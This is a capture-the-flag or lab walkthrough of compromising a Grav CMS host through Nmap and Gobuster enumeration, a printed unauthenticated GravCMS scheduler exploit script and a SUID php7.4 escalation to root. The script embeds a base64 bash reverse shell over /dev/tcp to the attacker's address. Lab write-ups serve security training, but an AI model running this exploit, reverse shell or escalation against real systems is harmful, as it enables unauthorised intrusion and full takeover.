



As always, I began by performing three Nmap scans. The first scan covered all 65,535 TCP ports, while the second was a targeted service scan of the discovered open ports. The final scan focused on the top 10 UDP ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:20 UTC
Nmap scan report for 192.168.240.12
Host is up (0.053s latency).
Not shown: 65526 closed tcp ports (reset), 7 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 17.24 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:22 UTC
Nmap scan report for 192.168.240.12
Host is up (0.049s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
| 256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_ 256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open http Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE TIME FILENAME
| - 2021-03-17 17:46 grav-admin/
|_
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:23 UTC
Nmap scan report for 192.168.240.12
Host is up (0.047s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp open|filtered ntp
135/udp closed msrpc
137/udp closed netbios-ns
138/udp closed netbios-dgm
161/udp open|filtered snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds
The structure of the web page on port 80 was somewhat unusual. It appeared to be missing an index.html file in the web root, as it displayed a directory listing containing only a single directory named grav-admin .
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 01:24 UTC
Nmap scan report for 192.168.240.12
Host is up (0.084s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum:
|_ /: Root directory w/ listing on 'apache/2.4.41 (ubuntu)'
Service Info: Host: 127.0.0.1
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 15.20 seconds

Navigating to /grav-admin revealed the Grav CMS introduction page.

I performed directory bursting using Gobuster and checked /robots.txt to enumerate any meaningful files or directories.
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP/grav-admin> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://192.168.240.12/grav-admin>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/logs/ (Status: 302) [Size: 0] [--> <http://192.168.240.12/grav-admin/.git/logs>]
/.hta (Status: 403) [Size: 279]
/.htaccess (Status: 403) [Size: 279]
/.htpasswd (Status: 403) [Size: 279]
/admin (Status: 200) [Size: 15508]
/assets (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/assets/>]
/backup (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/backup/>]
/bin (Status: 301) [Size: 325] [--> <http://192.168.240.12/grav-admin/bin/>]
/cache (Status: 301) [Size: 327] [--> <http://192.168.240.12/grav-admin/cache/>]
/cgi-bin/ (Status: 302) [Size: 0] [--> <http://192.168.240.12/grav-admin/cgi-bin>]
/forgot_password (Status: 200) [Size: 12383]
/home (Status: 200) [Size: 14014]
/images (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/images/>]
/login (Status: 200) [Size: 13967]
/logs (Status: 301) [Size: 326] [--> <http://192.168.240.12/grav-admin/logs/>]
/robots.txt (Status: 200) [Size: 274]
/system (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/system/>]
/tmp (Status: 301) [Size: 325] [--> <http://192.168.240.12/grav-admin/tmp/>]
/user (Status: 301) [Size: 326] [--> <http://192.168.240.12/grav-admin/user/>]
/vendor (Status: 301) [Size: 328] [--> <http://192.168.240.12/grav-admin/vendor/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
/robots.txt
User-agent: *
Disallow: /backup/
Disallow: /bin/
Disallow: /cache/
Disallow: /grav/
Disallow: /logs/
Disallow: /system/
Disallow: /vendor/
Disallow: /user/
Allow: /user/pages/
Allow: /user/themes/
Allow: /user/images/
Allow: /
Allow: *.css$
Allow: *.js$
Allow: /system/*.js$
I searched for ‘Grav CMS’ in Searchsploit , which returned several exploits. Since I hadn’t obtained any credentials yet, I opted for an unauthenticated exploit: Arbitrary YAML Write/Update.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit grav cms
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated) | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2) | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit) | php/webapps/49788.rb
gravy media CMS 1.07 - Multiple Vulnerabilities | php/webapps/8315.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Analyzing the code, I found it leads to a reverse shell. Note that /grav-admin must be appended to the target IP address for the exploit to work.
┌──(kali㉿kali)-[~/Desktop]
└─$ cat 49973.py
# Exploit Title: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
# Original Exploit Author: Mehmet Ince
# Vendor Homepage: <https://getgrav.org>
# Version: 1.10.7
# Tested on: Debian 10
# Author: legend
#/usr/bin/python3
import requests
import sys
import re
import base64
target= "<http://192.168.240.12/grav-admin>"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNi80NDMgMD4mMQ=='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
"""
s = requests.Session()
r = s.get(target+"/admin")
adminNonce = re.search(r'admin-nonce" value="(.*)"',r.text).group(1)
if adminNonce != "" :
url = target + "/admin/tools/scheduler"
data = "admin-nonce="+adminNonce
data +='&task=SaveDefault&data%5bcustom_jobs%5d%5bncefs%5d%5bcommand%5d=/usr/bin/php&data%5bcustom_jobs%5d%5bncefs%5d%5bargs%5d=-r%20eval%28base64_decode%28%22'+base64.b64encode(payload).decode('utf-8')+'%22%29%29%3b&data%5bcustom_jobs%5d%5bncefs%5d%5bat%5d=%2a%20%2a%20%2a%20%2a%20%2a&data%5bcustom_jobs%5d%5bncefs%5d%5boutput%5d=&data%5bstatus%5d%5bncefs%5d=enabled&data%5bcustom_jobs%5d%5bncefs%5d%5boutput_mode%5d=append'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = s.post(target+"/admin/config/scheduler",data=data,headers=headers)
www-data
After gaining the initial access, I explored the system and discovered a cronjob. This job was executing Grav's scheduler feature via the PHP binary.
www-data@gravity:~/html/grav-admin$ crontab -l
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
While the cronjob didn’t directly lead to privilege escalation, a search for SUID binaries revealed that php7.4 had the SUID bit set.
www-data@gravity:/etc/cron.d$ find / -type f -perm -4000 -ls 2>/dev/null
...
53120 4676 -rwsr-xr-x 1 root root 4786104 Feb 23 2023 /usr/bin/php7.4
...
rootLeveraging GTFOBins, I executed the following command to exploit the binary and obtain a root shell.
www-data@gravity:/$ php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
# ls -la
total 40
drwx------ 6 root root 4096 Jan 26 01:17 .
drwxr-xr-x 19 root root 4096 Mar 29 2023 ..
lrwxrwxrwx 1 root root 9 Mar 29 2023 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Dec 5 2019 .bashrc
drwx------ 2 root root 4096 Apr 3 2023 .cache
-rw------- 1 root root 9 Apr 3 2023 flag1.txt
drwxr-xr-x 3 root root 4096 Mar 29 2023 .local
-rw-r--r-- 1 root root 161 Dec 5 2019 .profile
-rwx------ 1 root root 33 Jan 26 01:17 proof.txt
drwx------ 3 root root 4096 Jan 24 2023 snap
drwx------ 2 root root 4096 Jan 24 2023 .ssh
# cat proof.txt
ae2...